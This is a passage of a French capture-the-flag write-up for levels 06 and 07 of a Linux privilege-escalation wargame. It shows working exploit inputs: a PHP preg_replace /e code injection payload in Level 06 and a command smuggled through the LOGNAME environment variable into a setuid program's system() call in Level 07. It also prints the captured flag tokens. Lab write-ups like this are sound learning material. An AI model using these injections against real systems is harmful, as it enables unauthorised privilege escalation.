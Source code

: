
## Level 06

```
$> ls -la
[...]
-rwsr-x---+ 1 flag06 level06 XX XX 2015 level06
-rwxr-x---  1 flag06 level06 XX XX 2016 level06.php
[...]
```

Un executable et son code source en PHP. L'executable est owned par flag06 et utilise `setuid()`<br />
Le script PHP utilise le modificateur `/e` de regex qui permet d'utiliser du code.<br />
Le regex fonction sur le patern `[x <X>]` ou `<X>` est n'importe quoi.</br >
On peut donc creer un fichier avec notre injection de code.
```
$> echo '[x {${exec(getflag)}}]' >/tmp/a
$> ./level06 /tmp/a
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

### Flag: `wiok45aaoguiboiki2tuin6ub`

---

## Level07

```
$> ls -la
[...]
-rwsr-sr-x 1 flag07 level07 XX XX level07
[...]
```

On voit que `./level07` est owned par flag07 et utilise `setuid()`

```
$> strings level07
[...]
getenv
[...]
LOGNAME
/bin/echo
[...]
system
[...]
```
L'executable a surement une ligne de code qui ressemble a:`system("/bin/env %s", getenv("LOGNAME"))`

```
$> LOGNAME='salut; getflag'
$> ./level07
salut
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
